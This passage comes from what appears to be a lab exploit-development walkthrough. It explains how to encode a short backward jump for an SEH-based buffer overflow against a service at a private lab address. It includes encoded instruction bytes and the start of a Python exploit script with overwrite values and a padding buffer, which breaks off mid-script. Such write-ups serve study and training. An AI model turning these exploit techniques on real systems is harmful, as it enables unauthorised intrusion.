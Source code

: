 And let's run it and see how well we did. If all went well, when we step through this code in the `D` buffer, `ESP` should be pointing at our desired address for it `0174FFEF`. 

![](/assets/images/CTP/LTERespalign.JPG)

As you can see we were successful! 

### Encoding/Decoding a Short Jump Backwards

Now that we know where our decoded shellcode will appear (visually right above `ESP`), we are free to put our encoded jump backwards into our shellcode. After feeding the shellcode `\xeb\x80\x90\x90` to Slink, we get the following encoded payload: 
```terminal_session
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50"
```

So let's add this to our payload, which now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'
espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'
jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 


buffer = 'A' * 3514
buffer += nSeh
```